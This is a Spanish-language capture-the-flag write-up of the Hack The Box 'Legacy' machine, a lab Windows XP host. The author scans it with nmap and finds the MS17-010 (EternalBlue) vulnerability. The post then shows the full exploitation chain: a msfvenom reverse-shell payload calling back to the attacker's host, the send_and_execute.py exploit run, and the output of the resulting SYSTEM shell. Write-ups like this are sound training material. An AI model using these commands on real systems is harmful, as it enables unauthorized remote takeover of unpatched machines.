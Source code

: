 ```yaml
---
title: "Hackthebox Legacy Writeup (OSCP Style)"
date: 2020-08-26 14:21:54 +/-0800
categories: [Hackthebox,Windows]
tags: [Eternalblue,MS17-010]
image: /assets/img/Post/Legacy.jpg
---
```



| Contenido | Descripción |
|--|--|
| OS: | **![](https://lh4.googleusercontent.com/MHW4d9kHrUo_W-GEyKNmxy4d80uPN5LB0VvwueRlflx-MIKT90EEwXBQZAv7Lg_N9dhTCed17DcmhNF-T_39FcYHrBAx7bHTDD1I7FGeqykdeKs849mRr1y0-aggvaZ7eYUYjPZG)** |
| Dificultad: | Facil |
| Puntos: | 20 |
| Lanzamiento: | 15/Marzo/2017 |
| IP: | 10.10.10.4 |
| Primera sangre de usuario: | [0x1Nj3cT0R](https://www.hackthebox.eu/home/users/profile/22) |
| Primera sangre de system: | [0x1Nj3cT0R](https://www.hackthebox.eu/home/users/profile/22) |


Como siempre comenzaremos con un escaneo a los     `65535` puertos para descubrir cuales son los puertos abiertos.

```console
intrusionz3r0@kali:~$ nmap -p- --open -T5 -n -oG nmapScanAllPorts legacy.htb -Pn --min-rate 3000
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-26 17:13 CDT
Nmap scan report for legacy.htb (10.10.10.4)
Host is up (0.23s latency).
Not shown: 65532 filtered ports, 1 closed port
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 47.65 seconds
```
Después lanzaré scripts de enumeración básicos para conocer los servicios y versiones de los puertos abiertos.
```console
intrusionz3r0@kali:~$  nmap -sCV -p139,445 -oN targeted legacy.htb -Pn
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-26 17:16 CDT
Nmap scan report for legacy.htb (10.10.10.4)
Host is up (0.20s latency).

PORT    STATE SERVICE      VERSION
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: 5d00h30m21s, deviation: 2h07m16s, median: 4d23h00m21s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:91:0b (VMware)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2020-09-01T03:17:15+03:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 60.69 seconds
```
El escaneo determino lo siguiente:

* Puerto 139/tcp con servicio samba.
* Puerto 445/tcp con servicio samba.

Rápidamente lanzo otro escaneo con nmap con el objetivo de poder encontrar si estas versiones de samba esta asociadas con alguna vulnerabilidad critica.

```console
intrusionz3r0@kali:~$ nmap -p139,445 --script="Vuln and Safe" legacy.htb -oN vulnScan -Pn
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-26 17:26 CDT
Nmap scan report for legacy.htb (10.10.10.4)
Host is up (0.29s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/

Nmap done: 1 IP address (1 host up) scanned in 18.94 seconds
```

**¡¡Eureka!!**

Podemos observar que la máquina es vulnerable a `ms17-010` el famoso `eternalblue`.

Para explotarlo necesitamos descargarnos el siguiente repositorio: [https://github.com/helviojunior/MS17-010](https://github.com/helviojunior/MS17-010)

Una vez descargado verificamos si la máquina es vulnerable nuevamente.

```console
intrusionz3r0@kali:~$ sudo python checker.py legacy.htb                                                                        [28/28]
Trying to connect to legacy.htb:445                                                                                                                                
Target OS: Windows 5.1                                                                                                                                             
The target is not patched                                                                                                                                          
                                                                                                                                                                   
=== Testing named pipes ===                                                                                                                                        
spoolss: Ok (32 bit)                                                                                                                                               
samr: STATUS_ACCESS_DENIED                                                                                                                                         
netlogon: STATUS_ACCESS_DENIED                                                                                                                                     
lsarpc: STATUS_ACCESS_DENIED                                                                                                                                       
browser: Ok (32 bit)
```
Si en la respuesta te arroja cualquier pipe en `OK` significa de que es vulnerable.

Creamos una payload.
```console
intrusionz3r0@kali:~$ sudo msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.20 LPORT=1234 -f exe -o eternal.exe                    
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload                                                                             
[-] No arch selected, selecting arch: x86 from the payload                                                                                                         
No encoder specified, outputting raw payload                                                                                                                       
Payload size: 324 bytes                                                                                                                                            
Final size of exe file: 73802 bytes                                                                                                                                
Saved as: eternal.exe
```
Por último dejamos nuestro netcat a la escucha y lanzamos el exploit.

```console
intrusionz3r0@kali:~$ sudo python send_and_execute.py 10.10.10.4 eternal.exe 445 spoolss                           
Trying to connect to 10.10.10.4:445
Target OS: Windows 5.1
Groom packets
attempt controlling next transaction on x86
success controlling one transaction
modify parameter count to 0xffffffff to be able to write backward
leak next transaction
CONNECTION: 0x82129010
SESSION: 0xe21045d8
FLINK: 0x7bd48
InData: 0x7ae28
MID: 0xa
TRANS1: 0x78b50
TRANS2: 0x7ac90
modify transaction struct for arbitrary read/write
make this SMB session to be SYSTEM
current TOKEN addr: 0xe21676b0
userAndGroupCount: 0x3
userAndGroupsAddr: 0xe2167750
overwriting token UserAndGroups
Sending file V9TKR5.exe...
Opening SVCManager on 10.10.10.4.....
Creating service BYjN.....
Starting service BYjN.....
The NETBIOS connection with the remote host timed out.
Removing service BYjN.....
ServiceExec Error on: 10.10.10.4
nca_s_proto_error
Done
```

![](https://lh4.googleusercontent.com/efO57qg1EeFfLV9qks83MO3sBd961Kvb46EykFNcytBlddJyRkmT7ReRNtwE0JaYu0JRAGWxH2B8R3zdzGwUtRqOR2jteRei_UPP0R78PuQuVpsAZ-CUPcnjieaOo5miFmZ2QQ4J)

**¡¡Eureka!!**
Tenemos shell pero al intentar ejecutar el comando `whoami` vemos que no podemos debido a que el binario no existe.

```console
C:\WINDOWS\system32>whoami
whoami
'whoami' is not recognized as an internal or external command,
operable program or batch file.
```
Aunque se que somos Administrador de todas formas vamos a subir el binario `whoami` a la máquina.

Rápidamente me levanto un servidor con samba compartiendo el `whoami.exe` y lo ejecutamos desde ahí.

![](https://lh3.googleusercontent.com/ettGpXlw6gE5GzlOY7wPXxehUI85URaeJAZXOabZkiZMD3M0Xi3fsJfgluyWz8yrK8k6F7Syj4ulGc9TDNWXnR6LIIzfJsnnDhRoSGyB5vBtYVBFZDpBedAEL3LkXvmlHyy6ffxx)

**¡¡Somos Root!!**

![enter image description here](https://i2.wp.com/media0.giphy.com/media/mQG644PY8O7rG/giphy.gif)

Espero te haya gustado, recuerda seguirme en mis redes sociales para estar al pendiente de todo mi contenido.

**¡Muchas Gracias!**
